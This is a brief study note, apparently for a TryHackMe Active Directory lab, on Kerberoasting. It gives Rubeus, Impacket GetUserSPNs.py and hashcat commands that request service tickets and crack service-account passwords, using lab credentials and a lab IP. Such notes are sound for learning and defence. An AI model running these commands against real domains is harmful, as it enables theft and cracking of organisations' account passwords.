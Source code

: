 Links: [[00 - Global Index (Start Here!)]] [[03 - Try Hack Me]] [[Active Directory]] [[Attacking Kerberos]]
# [04 - Kerberoasting with Rubeus and Impacket]
## Notes
---
Kerberoasting allows a user to request a service ticket for any service with a registered SPN then use that ticket to crakc the service password.

With Rubeus:
```powershell
Rubeus.exe kerberoast
```
```bash
hashcat -m 13100 -a 0 hash.txt Pass.txt
```
With impacket
```bash
sudo python3 GetUserSPNs.py controller.local/Machine1:Password1 -dc-ip 10.10.133.178 -request
```
cracking with hashcat